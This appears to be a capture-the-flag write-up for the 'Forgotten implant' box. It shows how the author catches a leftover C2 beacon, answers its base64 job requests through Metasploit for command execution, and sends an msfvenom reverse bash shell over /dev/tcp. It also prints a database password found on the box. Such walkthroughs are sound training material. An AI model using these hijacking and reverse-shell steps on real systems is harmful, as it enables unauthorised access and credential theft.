 # Forgotten implant

Forgotten implant. Quite an original box on how to get into an already hacked device where the C2 implant was not removed.

With the help of the forgotten implant you must gain entry again.


## Getting in

As always, start with nmap

nmap -sC -sV -T5 -p- ${IP} -vv -oN box

But it does not find any open ports.

Ok, maybe udp? That matters sometimes. But since udp scan are SLOW as fok, better pass --top-ports 1024 to nmap.

nmap -sC -sV -sU -T5 --top-ports 1024 -vv -oN box ${IP}

blabla
Host is up, received reset ttl 63 (0.032s latency).
Skipping host 10.10.243.126 due to host timeout
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done -- 1 IP address (1 host up) scanned in 905.67 seconds

Nothing!

ok thats new, but as the hint says

"Your port scan is not misleading you"

this must be by design.

Knowing how C2 systems work, then it is only logical that the machine is sending data out and not in.
It's probably sending a beacon, asking the server what to do.

So let's see what tcpdump has to say on the vpn's network interface. tun0

```
sudo tcpdump -i tun0
```

17:42:04.029478 IP ${LIP}.81 > 10.10.169.196.43862: Flags [R.], seq 0, ack 3660637020, win 0, length 0

So it seems that something is sending packets to port 81. okay...

then lets see what by starting netcat.

```
nc -lnvp 81 
```

After some seconds an http request comes in written with python's requests package.

```
GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDhUMTU6NDQ6MDEuODkyOTY5IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

it's sending a beacon to /heartbeat with base64.

the decoded base64 means.

```
{"systeminfo": {"os": "Linux", "hostname": "forgottenimplant"}, "latest_job": {"job_id": 0, "cmd": "whoami"}, "success": false}
```

Aha! It's querying for commands/jobs to do.

Well then, then there are a few options. 

1. We can write a server with a heartbeat endpoint.
2. We can use a real C2 like metasploit

Let's go for option 2, since this box is all about C2.

So fire up metasploit. metasploit -q.
And start catching the beacon with payload meterpreter/reverse_http.

```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_http

set LPORT 81
set LHOST tun0

run

[*] Started HTTP reverse handler
```

Soon the requests come in and metasploit prints them.

[*] http:/IP:81 handling request from 10.10.243.126; (UUID: g6wztzlc) Unknown request to /heartbeat/eyJ0aW1lIjogIjIwMjMtMDctMzBUMDc6MDQ6MDEuODcyNTQ2IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAiY2F0IHVzZXIudHh0IiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogIlRITXs5MDJlOGU4YjFmNDlkZmViNjc4ZTQxOTkzNWJlMjNlZn1cbiJ9LCAic3VjY2VzcyI6IGZhbHNlfQ== with UA 'python-requests/2.22.0'

So we need to send messages back and with the reverse_http payload all http headers and body and what not can be manipulated.
"show advanced" in meterpreter and there we have HttpUnknownRequestResponse. That's exactly what metasploit is saying! unknown request.

First try to get command execution by base64 encoding a simple ls.

```
{"job_id": 0, "cmd": "ls"}
```

Cyberchef is a handy tool for base64 encoding, base64 clutters up your history IMO.

So:
set HttpUnknownRequestResponse eyJqb2JfaWQiOiAwLCAiY21kIjogImxzIn0=

And wait. The beacon comes back with.....

"Unknown request to /job-result/eyJqb2JfaWQiOiAwLCAiY21kIjogImxzIiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogInByb2R1Y3RzLnB5XG51c2VyLnR4dFxuIn0="

and that base64 string means....

"{"job_id": 0, "cmd": "ls", "success": true, "result": "products.py\nuser.txt\n"}"

We have command execution!

So yeah lets generate a shell with msfvenom and encode it inside the json.

```
msfvenom -p cmd/unix/reverse_bash lhost=tun0 lport=10666 R
```

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 70 bytes
bash -c '0<&94-;exec 94<>/dev/tcp/IP/10666;sh <&94 >&94 2>&94'

So encoded to base64 we get.

```
set HttpUnknownRequestResponse eyJqb2JfaWQiOiAwLCAiY21kIjogImJhc2ggLWMgJzA8JjEyNy07ZXhlYyAxMjc8Pi9kZXYvdGNwLzEwLjkuNi4xNzkvMTA2NjY7c2ggPCYxMjcgPiYxMjcgMj4mMTI3JyJ9
```

run

start another metasploit and set the payload to cmd/unix/reverse_bash

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp and the correct port and interface
msf6 exploit(multi/handler) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash

run
Then run the http payload and wait.
Soon we get "[*] Accepted the first client connection..." but thats not enough, no real shell is generated.

and we have shell from the beacon

type shell in metasploit to upgrade to proper bash shell.

from there it's time to go for root, that is covered in other writeups. I tried with metasploit's post exploitation modules.

```
ada@forgottenimplant:~$ cat products.py
cat products.py
import mysql.connector

db = mysql.connector.connect(
    host='localhost', 
    database='app', 
    user='app', 
    password='s4Ucbrme'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')

    mysql -h localhost -u app -p
mysql -h localhost -u app -p
Enter password: s4...
```
